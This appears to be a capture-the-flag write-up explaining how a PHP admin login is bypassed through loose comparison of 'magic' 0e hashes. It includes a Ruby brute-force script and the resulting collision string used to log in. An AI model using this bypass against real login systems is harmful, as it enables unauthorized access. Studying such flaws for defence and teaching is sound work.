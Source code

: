Description:

>  Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...

It was a php 0ep[0-9] bug.

Sans got a very detailed write-ip

https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing

It pretty much works this way.

```
$ cat >bahhumhubbug.php
 <?php
  if (md5('240610708') == md5('QNKCDZO')) {  print "Yes, these are the same values.\n"; }
 ?>
$ php bahhumhubbug.php
```

By looking at the original md5, this is how it should go.

> md5(md5($str) . "SALT")

Quick and dirty ruby code.

```
!#/use/bin/ruby

require 'digest/md5'

loop do

	o =  [('a'..'z'),('A'..'Z')].map{|i| i.to_a}.flatten
	answer  =  (0...8).map{ o[rand(o.length)]  }.join

	befsalt = (Digest::MD5.hexdigest(answer)) + "SALT"
	aftersalt = (Digest::MD5.hexdigest(befsalt))

	puts aftersalt + " : " + answer

end
```

This is how i run it.

```
$ ruby sol.rb | grep '^0e[0-9]\{30\}'
```

It returns.
> 0e771843551973161572593952401549 : dLTmTjWe

Back to the web. Login, we got the flag.
